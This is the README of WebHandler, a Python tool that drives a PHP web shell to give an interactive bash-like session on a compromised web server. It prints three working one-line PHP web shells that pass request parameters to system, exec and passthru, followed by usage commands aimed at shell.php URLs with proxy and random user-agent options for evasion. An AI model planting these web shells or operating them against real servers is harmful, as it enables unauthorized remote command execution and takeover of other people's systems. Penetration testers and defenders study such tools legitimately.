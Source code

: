 WebHandler - command controller for PHP system function
---
![My image](http://s12.postimage.org/t5ujo2om5/Untitled_1.png)

### Info: ###
---
WebHandler is a command controller to handle PHP _program execution functions_ like system, passthru, exec and etc...
The script tries to simulate Linux bash as it works from CLI.
As of optional settings it supports HTTP proxy together with HTTP header values "User-Agent".
It sends requests to the server through urllib/urllib2 [Python][] modules.

* WebHandler works for **POST** and **GET** requests:
    - `<?php system($_GET['cmd']); ?>`
    - `<?php exec($_POST['cmd']); ?>`
    - `<?php passthru($_REQUEST['cmd']); ?>`

### Usage: ###
---
* --url is a positional argument withing GET and POST requests:
    - python webhandler.py --url http://www.mywebsite.com/shell.php?cmd=
    - python webhandler.py --url http://www.mywebsite.com/shell.php --method POST --parameter cmd
    - python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --random-agent --turbo
    - python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --proxy http://127.0.0.1:8080


__Requirements__
---
If your [Python][]'s version < 2.7.x, then [argparse][] **is required**.
To install it run: `sudo apt-get install python-setuptools && sudo easy_install argparse` **OR** `sudo pip --install argparse`

[readline][] **is optional**.
This module it used to provide elaborate line editing and history features

[git][] **is optional**.
This allows for the project to be kept up-to-date

[Python]: http://www.python.org/download/
[argparse]: http://docs.python.org/library/argparse.html
[readline]: http://cnswww.cns.cwru.edu/php/chet/readline/rltop.html
[git]: http://git-scm.com
